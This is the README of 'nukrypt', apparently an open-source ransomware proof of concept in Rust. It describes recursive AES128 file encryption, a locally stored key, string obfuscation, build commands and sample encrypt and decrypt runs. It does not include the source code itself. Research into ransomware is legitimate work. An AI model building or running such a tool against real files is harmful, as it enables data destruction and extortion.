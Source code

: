 nukrypt
=======
A ransomware PoC written in Rust. `nukrypt` will recursively traverse all directories given to it as CLI arguments and encrypt files using AES128. The 128-bit key is generated at runtime and dropped at the current working directory (if it does not exist). The AES IV is written to the beginning of each encrypted file. Encrypted files are suffixed with `.nukrypt`.


Features
--------
- AES128
- Literal encryption using [litcrypt](https://docs.rs/litcrypt/latest/litcrypt/)
- Some safeguards to prevent unintended data loss.


Compilation
-----------
- Simply `git clone` the repository and `cargo build` the project:
```
$ git clone https://github.com/hiatus/nukrypt
$ cd nukrypt
$ cargo build --release
```


Usage
-----
```
nukrypt [encrypt|decrypt] [dir]..
```

### Encrypt
When called with `encrypt`, `nukrypt` will first generate a 128-bit key and write it to a file called `nukrypt.key` at the current working directory; if the file already exists, `nukrypt` will read it instead of overwriting it. After key generation, all `dir`s will be recursively encrypted.

```
$ nukrypt encrypt ./encrypt-me/
[+] Encryption key saved to nukrypt.key

[#] Encrypting: ./encrypt-me/notes.txt
[#] Encrypting: ./encrypt-me/project/curriculum.pdf
[#] Encrypting: ./encrypt-me/project/accounting.xlsx

[+] 3 files encrypted in 0.002 seconds
```

### Decrypt
When called with `decrypt`, `nukrypt` will attempt to read the key from the `nukrypt.key` file in the current working directory and recursively decrypt all `dir`s.
```
$ nukrypt decrypt ./encrypt-me/
[#] Decrypting: ./encrypt-me/notes.txt.nukrypt
[#] Decrypting: ./encrypt-me/project/curriculum.pdf.nukrypt
[#] Decrypting: ./encrypt-me/project/accounting.xlsx.nukrypt

[+] 3 files decrypted in 0.000 seconds
```
